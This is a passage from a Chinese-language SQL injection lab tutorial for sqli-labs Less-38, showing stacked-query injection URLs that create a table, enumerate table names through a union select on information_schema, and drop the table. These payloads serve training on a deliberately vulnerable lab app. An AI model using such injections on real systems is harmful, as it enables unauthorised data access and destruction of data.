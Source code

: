 #### 3.8.3.2.**新建表**

新建一个test表。

URL：http://192.168.10.150/sqlilabs/Less-38/?id=1'; create table test like users;--+

![img](assets/JdW53GumxAEw9bz.jpg) 

验证：

URL：http://192.168.10.150/sqlilabs/Less-38/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+

通过返回的数据明显能够看到多了一个test文件。

![img](assets/IKZ6LpXktfMral2.jpg) 

#### 3.8.3.3.**删除表**

删除test表。

URL：http://192.168.10.150/sqlilabs/Less-38/?id=1'; drop table test;--+

![img](assets/Yw4N2EGu9dzJgkI.jpg) 
